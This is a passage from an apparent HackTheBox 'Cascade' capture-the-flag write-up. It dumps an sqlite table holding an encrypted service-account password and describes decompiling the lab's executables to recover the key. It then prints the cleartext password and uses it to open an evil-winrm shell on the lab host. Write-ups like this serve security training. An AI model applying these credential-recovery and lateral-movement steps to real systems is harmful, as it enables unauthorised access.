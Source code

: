         "Username"      TEXT,
        "Name"  TEXT,
        "DistinguishedName"     TEXT
);
INSERT INTO DeletedUserAudit VALUES(6,'test',replace('Test\nDEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d','\n',char(10)),'CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local');
INSERT INTO DeletedUserAudit VALUES(7,'deleted',replace('deleted guy\nDEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef','\n',char(10)),'CN=deleted guy\0ADEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef,CN=Deleted Objects,DC=cascade,DC=local');
INSERT INTO DeletedUserAudit VALUES(9,'TempAdmin',replace('TempAdmin\nDEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a','\n',char(10)),'CN=TempAdmin\0ADEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a,CN=Deleted Objects,DC=cascade,DC=local');
COMMIT;
sqlite> .dump Ldap
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE IF NOT EXISTS "Ldap" (
        "Id"    INTEGER PRIMARY KEY AUTOINCREMENT,
        "uname" TEXT,
        "pwd"   TEXT,
        "domain"        TEXT
);
INSERT INTO Ldap VALUES(1,'ArkSvc','BQO5l5Kj9MdErXx6Q6AGOw==','cascade.local');
COMMIT;
sqlite>
```
Dumping the `Ldap` table of this database gives me the line `INSERT INTO Ldap VALUES(1,'ArkSvc','BQO5l5Kj9MdErXx6Q6AGOw==','cascade.local');` which looks like it contains a password for the ArkScv user I was hoping to move laterally into.  Now I had to figure out what kind of encryption it was stored with (not simple base64 unfortunately)

Opened `CascAudit.exe` and `CascCrypto.dll` in ILSpy; 
images
took the decryption method from crypto.dll and the key from the exe, put the code in dotnetfiddle.net

w3lc0meFr31nd
I'm not sure what the undecipherable characters are in the output, but luckily leaving them out did not casue any issues with logging in with this password.

## Moving Laterally to user `arksvc`
```
zweilos@kalimaa:~/htb/cascade$ evil-winrm -u arksvc -p w3lc0meFr31nd -i 10.10.10.182

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /all

USER INFORMATION
----------------
